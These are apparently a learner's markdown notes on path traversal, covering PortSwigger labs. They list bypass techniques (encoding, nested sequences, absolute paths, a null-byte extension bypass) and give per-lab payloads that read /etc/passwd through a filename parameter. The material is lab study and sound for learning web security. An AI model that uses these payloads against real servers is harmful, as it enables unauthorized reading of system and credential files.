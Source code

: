 # Path Traversal Notes

Path Traversal or Discovery Traversal

[Portswigger](https://portswigger.net/web-security/file-path-traversal)

## Methodology

When reviewing traffic look out for references to files, based on parameter name or seeing files referenced in parameters. 

### Common traversal techniques

- Use `../` or `..\` based on windows or linux. Use `.\` or `./` in between to bypass restrictions
- Direct call a file instead like `?filename=/etc/passwd`
- Use nested traversal sequences like `....//` or `....\/`
- Encode to bypass like: `%2e%2e%2f` or double encode like `%252e%252e%252f`
- Maybe include base folder then traversal like: `filename=/var/www/images/../../../etc/passwd`
- Validation of path, end with a null byte before filetype to bypass filetype restrictions: `filename=../../../etc/passwd%00.png`

## Labs Walkthrough

### File path traversal, simple case

- intercept and send to repeater a call that fetches a product image
- Modify the filename parameter, giving it the value: `../../../etc/passwd`

### File path traversal, traversal sequences blocked with absolute path bypass

- same as above, send image request and modify the filename to `/etc/passwd`

### File path traversal, traversal sequences stripped non-recursively

- again in same call that fetches a product image modify the filename to `....//....//....//etc/passwd`

### File path traversal, traversal sequences stripped with superfluous URL-decode

- again in same call that fetches a product image modify the filename to `..%252f..%252f..%252fetc/passwd`

### File path traversal, validation of start of path

- again in same call that fetches a product image modify the filename to `/var/www/images/../../../etc/passwd`

### File path traversal, validation of file extension with null byte bypass

- again in same call that fetches a product image modify the filename to `../../../etc/passwd%00.png`

